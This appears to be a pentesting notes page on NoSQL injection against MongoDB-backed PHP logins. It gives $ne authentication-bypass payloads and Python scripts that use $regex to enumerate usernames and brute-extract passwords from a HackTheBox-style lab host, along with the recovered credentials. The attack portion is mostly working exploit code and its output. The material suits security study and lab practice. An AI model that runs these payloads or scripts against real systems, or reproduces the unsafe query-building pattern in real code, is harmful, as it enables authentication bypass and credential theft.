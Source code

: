 ```yaml
---
description: NoSQL injection attacks can be especially dangerous because code
---
```


# NoSQL Injection

## Introduction

NoSQL injection vulnerabilities allow attackers to inject code into commands for databases that don’t use SQL queries, such as MongoDB. NoSQL injection attacks can be especially dangerous because code is injected and executed on the server in the language of the web application, potentially allowing arbitrary code execution.

### Simple MongoDB Injection

For a basic authentication bypass, the attacker can try to enter MongoDB operators in field values, for example `$eq` \(equals\), `$ne` \(not equal to\) or `$gt` \(greater than\). Here’s an unsafe way to build a database query in a PHP application, with the parameter values taken directly from a form:

```text
$query = array("user" => $_POST["username"], "password" => 
    $_POST["password"]);
```

If this query is then used to check login credentials, the attacker can abuse PHP’s built-in associative array processing to inject a MongoDB query that always returns true and bypass the authentication process. This may be as simple as sending the following POST request:

```text
username[$ne]=1&password[$ne]=1
```

PHP will translate this into an array of arrays:

```text
array("username" => array("$ne" => 1), "password" => 
    array("$ne" => 1));
```

When sent as a MongoDB query to a user store, this will find all users where the user name and password are not equal to 1, which is highly likely to be true and may allow the attacker to bypass authentication.

## Login Bypass \(PHP\)

Injecting the `$ne` :

```text
#Find some one where username not equals to "" and password not equals to ""
username[$ne]=&password[$ne]=&login=login
```

### Dumping Database \(PHP\)

First instead of `$ne` we are going to use `$regex` in order to discover character by character. 

#### Get all Usernames

First we are going to see al type of characters used in the usernames.

```text
import sys, os, requests, codecs
import string

s = requests.Session()


for char in string.ascii_lowercase:

	regex = '{}.*'.format(char)
	data_post = {
		"username[$regex]" : regex,
		"password[$ne]" : "password",
		"login" : "login"
	}
	resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
	if resp.status_code == 302:
		print("Valid letter: " + char)
```

{% hint style="info" %}
**Regex:**  {}.\*
{% endhint %}

```text
❯ python3 exploit.py
Valid letter: a
Valid letter: d
Valid letter: g
Valid letter: i
Valid letter: m
Valid letter: n
Valid letter: o
```

Secondly, we are going to check which one goes at firs position:

```text
import sys, os, requests, codecs
import string

s = requests.Session()

valid_letters = ['a', 'd', 'g', 'i', 'm', 'n', 'o']

for char in valid_letters:

	regex = '^{}.*'.format(char)
	data_post = {
		"username[$regex]" : regex,
		"password[$ne]" : "password",
		"login" : "login"
	}
	resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
	if resp.status_code == 302:
		print("Starts with: " + char)
```

{% hint style="info" %}
**Regex:** ^{}.\*     ^ Indicates starts with
{% endhint %}

```text
❯ python3 exploit.py
Starts with: a
Starts with: m
```

Finally we are going to loop until fails all characters used.

```text
import sys, os, requests, codecs
import string

s = requests.Session()

def nextLetter(word):
	valid_letters = ['a', 'd', 'g', 'i', 'm', 'n', 'o']
	for char in valid_letters:

		regex = '^{}.*'.format(word+char)
		data_post = {
			"username[$regex]" : regex,
			"password[$ne]" : "password",
			"login" : "login"
		}
		resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
		if resp.status_code == 302:
			return char
	return None

def getUser(start):

	name = start
	while True:
		l = nextLetter(name)
		if l is None:
			break;
		else:
			name += l
	return name

startsWith = ['a', 'm']
for char in startsWith:
	print('Username: ' + getUser(char))

```

```text
❯ python3 enum_letters.py
Username: admin
Username: mango
```

#### Get Passwords:

Same as users but remember to change the `$regex` of the user to `$ne` and the other way with password.

```text
import sys, os, requests, codecs
import string

s = requests.Session()

def nextLetter(user, word):

	special_char = ['^','*', '$', '|', '.','\\' ,'+','?']
	for char in string.printable:
		if char in special_char:
			continue;
		regex = '^{}.*'.format(word+char)
		data_post = {
			"username" : user,
			"password[$regex]" : regex,
			"login" : "login"
		}
		resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
		if resp.status_code == 302:
			return char
	return None

def getPass(user):

	passw = ""
	while True:
		l = nextLetter(user, passw)
		if l is None:
			break;
		else:
			passw += l
	return passw

users = ['admin', 'mango']
for user in users:
	print('Username: ' + user + ' Password: ' + getPass(user))
```

```text
❯ python3 exploit.py
Username: admin Password: t9KcS3>!0B#2
Username: mango Password: h3mXK8RhU~f{]f5H
```

{% hint style="warning" %}
**Remember:** Escape characters that could lead to problems with a regex.
{% endhint %}

